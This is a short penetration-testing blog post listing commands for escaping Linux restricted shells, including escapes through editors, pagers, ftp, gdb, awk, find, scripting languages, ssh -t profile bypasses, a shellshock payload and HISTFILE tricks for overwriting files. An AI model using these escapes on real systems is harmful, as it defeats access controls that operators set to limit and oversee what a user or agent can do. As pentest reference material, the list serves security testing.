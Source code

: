 ```yaml
---
layout: default
title: "Breaking out of jail shells"
---
```

This is a quick post on breaking out of linux jail/restricted shells.

Always run your reconnaissance!  

* Run **env** to list out exported environment variables.
* **echo $SHELL** what shell are we in?
* **echo $PATH** what is our path set to?
* Can you just exploit a running process to escalate privileges and not need to escape out of your shell?
* Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**  

Quick wins from jail  

* Can you run **cp**? Just copy a file into your path.
  * **`cp /bin/sh /a/dir/from/path; sh`**
* Is \'/\' allowed?
  * Run **`/bin/sh`**
* Can you use **export**?
  * **`export PATH=/bin:/usr/bin:$PATH`**
  * **`export SHELL=/bin/sh`**
* Do you have access to commands that let you execute different system commands?
  * **ftp: `!/bin/sh`**
  * **gdb: `!/bin/sh`**
  * **more/less/man: `?!/bin/sh`**
  * **vi/vim: `:!/bin/sh`**
  * **scp: `scp -S /tmp/naughty.sh x y:`**
  * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
  * **find `find / -name something -exec /bin/sh \;`**
* Don\'t forget about your favorite language!
  * **python: `python -c 'import os; os.system("/bin/bash")'`**
  * **perl: `perl exec "/bin/sh";`**
  * **ruby: `ruby exec "/bin/sh"`**
  * **lua: `lua os.execute('/bin/sh')`**  

Quick wins from outside jail  

* Just execute commands before your shell is loaded.
  * **`ssh user@10.10.10.10 -t "/bin/sh"`**
* Don\'t start the rc profile
  * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
* Try shellshock
  * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**  

Getting creative  

* Using **tee** to write a script.
  * **`echo 'evil code' | tee script.sh`**
* History file
  * Set **HISTFILE** variable to a file you want to overwrite
  * Set **HISTSIZE** variable to **0** then immediately to **100**
  * Execute lines that should be written to your file
  * Log out and back in again.

Looking for more ways? [Google](http://bfy.tw/8Lq2)
